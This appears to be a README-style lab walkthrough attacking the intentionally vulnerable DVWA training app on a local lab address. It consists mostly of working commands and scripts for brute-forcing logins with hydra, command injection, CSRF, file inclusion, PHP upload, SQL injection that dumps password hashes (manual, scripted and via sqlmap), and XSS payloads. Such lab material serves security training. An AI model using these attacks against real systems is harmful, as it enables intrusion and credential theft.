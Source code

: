 
### Target

    https://github.com/ethicalhack3r/DVWA

    Security level: low

### Prereq

    # get user token
    $ TOKEN=$(curl -c dvwa.session -s http://192.168.56.101/DVWA/login.php | grep 'user_token' | awk -F 'value=' '{print $2}' | cut -d"'" -f2)

    # get session id
    $ PHPSESSID=$(grep PHPSESSID dvwa.session | awk -F' ' '{print $7}')

    # log in
    $ curl -L -b "PHPSESSID=${PHPSESSID};security=low" -v -d "username=admin&password=password&Login=Login&user_token=${TOKEN}" http://192.168.56.101/DVWA/login.php

### Brute Force

    $ wget https://raw.githubusercontent.com/seifreed/dirb/master/wordlists/others/best110.txt

    $ hydra -t 1 -l admin -P best110.txt -vV 192.168.56.101 http-get-form "/DVWA/vulnerabilities/brute/index.php:username=^USER^&password=^PASS^&Login=Login:F=password incorrect:H=Cookie: PHPSESSID=${PHPSESSID};security=low"

### Command Injection

    $ curl -s -b "PHPSESSID=${PHPSESSID};security=low" -d 'ip=;uname+-a&Submit=Submit' http://192.168.56.101/DVWA/vulnerabilities/exec/index.php | grep Linux    

### CSRF

    # Trick victim (via social engineering means) to visit:
    http://192.168.56.101/DVWA/vulnerabilities/csrf/?password_new=pass1&password_conf=pass1&Change=Change

### File Inclusion

    $ curl -L -b "PHPSESSID=${PHPSESSID};security=low" -v http://192.168.56.101/DVWA/vulnerabilities/fi/?page=../../hackable/flags/fi.php

### File Upload

```
$ cat > b.php <<EOF
<?php phpinfo(); ?>
EOF

$ curl -x 127.0.0.1:8080 -L -b "PHPSESSID=${PHPSESSID};security=low" -F "MAX_FILE_SIZE=100000" -F "uploaded=@b.php;filename=b.php" -F "Upload=Upload" http://192.168.56.101/DVWA/vulnerabilities/upload/index.php

$ curl -s -b "PHPSESSID=${PHPSESSID};security=low" http://192.168.56.101/DVWA/hackable/uploads/b.php | grep Linux
```

### Sql Injection

#### Manual exploitation

    # detecting SQLi
    $ curl -x 127.0.0.1:8080 -b "PHPSESSID=${PHPSESSID};security=low" "http://192.168.56.101/DVWA/vulnerabilities/sqli/index.php?id='&Submit=Submit"

    # check if injecting into string data
    $ curl -x 127.0.0.1:8080 -b "PHPSESSID=${PHPSESSID};security=low" "http://192.168.56.101/DVWA/vulnerabilities/sqli/index.php?id='+OR+'1'%3D'1&Submit=Submit"

    # retreiving table names
    $ curl -x 127.0.0.1:8080 -b "PHPSESSID=${PHPSESSID};security=low" "http://192.168.56.101/DVWA/vulnerabilities/sqli/index.php?id='+union+select+null%2Ctable_name+FROM+information_schema.tables%23&Submit=Submit"

    # retreiving column names for table 'user'
    $ curl -x 127.0.0.1:8080 -b "PHPSESSID=${PHPSESSID};security=low" "http://192.168.56.101/DVWA/vulnerabilities/sqli/index.php?id='+union+select+null%2Ccolumn_name+FROM+information_schema.columns+WHERE+table_name='user'%23&Submit=Submit"

    # retreiving users hashes
    $ curl -s -x 127.0.0.1:8080 -b "PHPSESSID=${PHPSESSID};security=low" "http://192.168.56.101/DVWA/vulnerabilities/sqli/index.php?id='+union+select+Password%2CUser+FROM+users%23&Submit=Submit" | grep union

#### Automated exploitation

    # identify SQLi
    $ wfuzz.py -p 127.0.0.1:8080 -b "PHPSESSID=${PHPSESSID};security=low" -w ~/BUILDS/wfuzz/wordlist/Injections/SQL.txt --ss error "http://192.168.56.101/DVWA/vulnerabilities/sqli/index.php?id=FUZZ&Submit=Submit"

    # confirm SQLi
    $ sqlmap.py --dbms=MySQL --os=Linux --batch --cookie="PHPSESSID=${PHPSESSID};security=low" --technique=U -u "http://192.168.56.101/DVWA/vulnerabilities/sqli/index.php?id=3&Submit=Submit" -p "id" -t ./sqlmap.log

    # exploit SQLi
    $ sqlmap.py --dbms=MySQL --os=Linux --batch http://127.0.0.1:8080 --cookie="PHPSESSID=${PHPSESSID};security=low" --technique=U -u "http://192.168.56.101/DVWA/vulnerabilities/sqli/index.php?id=3&Submit=Submit" -p "id" -t ./sqlmap-exp.log -s sqlmap.session --dump -T users

### Sql Injection (Blind)

Deps:

    https://stackoverflow.com/questions/296536/how-to-urlencode-data-for-curl-command

#### Manual exploitation

    # detecting (blind) SQLi
    $ curl -s -x 127.0.0.1:8080 -b "PHPSESSID=${PHPSESSID};security=low" "http://192.168.56.101/DVWA/vulnerabilities/sqli_blind/index.php?id=$(rawurlencode "1' and 1=1#")&Submit=Submit" | grep 'User ID' | tail -1
    $ curl -s -x 127.0.0.1:8080 -b "PHPSESSID=${PHPSESSID};security=low" "http://192.168.56.101/DVWA/vulnerabilities/sqli_blind/index.php?id=$(rawurlencode "1' and 1=0#")&Submit=Submit" | grep 'User ID' | tail -1

Exploitation (retreiving DBMS version):

```
$ cat > py.py << EOF
"""
example output of @@version: 5.7.16-0ubuntu0.16.04.1

first find length of the @@version string:
1' and length(@@version)=7#

iterate thru printable ASCII and retreive @@version string
1' and ascii(substring(@@version,1,1))=0x35#
"""

import requests
import string
from urllib import quote, unquote

proxies = {
    "http" : "http://127.0.0.1:8080/"
}

# initiate HTTP session
session = requests.Session()
session.cookies['security'] = 'low'
session.cookies['PHPSESSID'] = 'pjkq87qc7944tu6deo466g32q1'

u = 'http://192.168.56.101/DVWA/vulnerabilities/sqli_blind/index.php?id='

# find length of @@version string
for i in xrange(1, 30):
    payload = "1' and length(@@version)=" + str(i) + "#"
    resp = session.get(u + quote(payload) + "&Submit=Submit", proxies=proxies)

    print "{0}: {1}".format(i, resp.status_code)
    if resp.status_code == 200:
        len = i
        break

version=""

# retreive @@version string
for i in xrange(1, len + 1):
    for c in string.printable:
        payload = "1' and ascii(substring(@@version,{0},1))={1}#".format(i, hex(ord(c)))
        resp = session.get(u + quote(payload) + "&Submit=Submit", proxies=proxies)

        if resp.status_code == 200:
            print payload
            version += c

print version
EOF
```

Trigger:

    $ python py.py

#### Automated exploitation

    # detect (blind) SQLi
    $ sqlmap.py --batch --cookie="PHPSESSID=${PHPSESSID};security=low" --technique=B -u "http://192.168.56.101/DVWA/vulnerabilities/sqli_blind/index.php?id=3&Submit=Submit" -p "id" -t ./sqlmap.log

    # exploitation (retreiving DBMS version) 
    $ sqlmap.py --batch --cookie="PHPSESSID=${PHPSESSID};security=low" --technique=B -u "http://192.168.56.101/DVWA/vulnerabilities/sqli_blind/index.php?id=3&Submit=Submit" -p "id" -t ./sqlmap.log --sql-query="SELECT version();

### XSS (DOM)

Payload that ilustrates vulnerability:

    English<script>alert(1);</script>

### XSS (Reflected)

Trigger vulnerability (via browser):

    http://192.168.56.101/DVWA/vulnerabilities/xss_r/?name=%3Cscript%3Ealert%281%29%3C%2Fscript%3E#

### XSS (Stored)

Inject payload:

    $ curl -s -x 127.0.0.1:8080 -b "PHPSESSID=${PHPSESSID};security=low" "http://192.168.56.101/DVWA/vulnerabilities/xss_s/" --data "txtName=xxx&mtxMessage=$(rawurlencode "<script>alert(1)</script>")&btnSign=Sign+Guestbook"

### Bonus 1

    Session fixation - PHPSESSID is not regenerated after logging in
